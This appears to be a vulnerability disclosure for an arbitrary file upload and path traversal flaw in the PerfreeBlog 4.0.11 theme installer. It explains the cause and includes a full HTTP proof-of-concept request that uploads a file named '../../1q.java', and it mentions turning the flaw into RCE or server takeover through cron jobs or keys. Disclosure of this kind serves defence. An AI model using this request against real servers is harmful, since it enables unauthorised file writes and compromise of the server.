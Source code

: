 # Arbitrary File Upload Vulnerability in PerfreeBlog System

## Official Website
https://perfree.org.cn/

## Download Link
https://gitee.com/PerfreeBlog/PerfreeBlog


## Vulnerability Description
The PerfreeBlog system has an arbitrary file upload vulnerability, which allows uploading any file to the server and gaining server privileges.


## Vulnerable Version
Latest version 4.0.11


## Vulnerability Principle
The relevant code details are as follows:
The code for uploading theme files loads the uploaded theme files into the temp directory first without any verification, then executes the `installTheme` function.
![](./img/1.png)
When entering the `installTheme` function, it is found that it first decompresses the file. If the uploaded file is not a zip file, the decompression will fail, and the `file.delete()` function will not be executed. As a result, the uploaded file will be saved in the temp directory. Moreover, directory traversal can be performed using `../`, leading to a file upload vulnerability and potential file overwriting.
![](./img/2.png)


## Vulnerability Reproduction
First, log in to the background and navigate to Theme Management.
![](./img/3.png)

Click "Upload File" and capture the packet.
The interface is:
```
http://127.0.0.1:8086/api/auth/theme/installTheme
```
This interface allows uploading files with any suffix to the temp directory, and directory traversal can be performed using `../`.

```
POST /api/auth/theme/installTheme HTTP/1.1
Host: 127.0.0.1:8086
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJhZG1pbiIsImlzcyI6InNlY3VyaXR5IiwiaWF0IjoxNzU1NzQ0ODg1LCJhdWQiOiJzZWN1cml0eS1hbGwiLCJleHAiOjE3NTU3NTIwODV9.oniKav5M-QEoR93JWDGv4aa20gVWv7fm6xS07EYQhJ4
Content-Type: multipart/form-data; boundary=----geckoformboundary7dd0f6ff1964a2e44ae9ef79a114ffe3
Content-Length: 232
Origin: http://127.0.0.1:8086
Connection: keep-alive
Referer: http://127.0.0.1:8086/admin/theme
Cookie: 
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

------geckoformboundary7dd0f6ff1964a2e44ae9ef79a114ffe3
Content-Disposition: form-data; name="file"; filename="../../1q.java"
Content-Type: text/plain

111111111111111
------geckoformboundary7dd0f6ff1964a2e44ae9ef79a114ffe3--
```
![](./img/4.png)
Successfully uploaded to the target directory. It is also possible to overwrite existing Java files to achieve RCE, as shown in the following figure.
![](./img/5.png)


For Linux systems, it is possible to write cron jobs, public-private keys, etc., to gain server privileges.
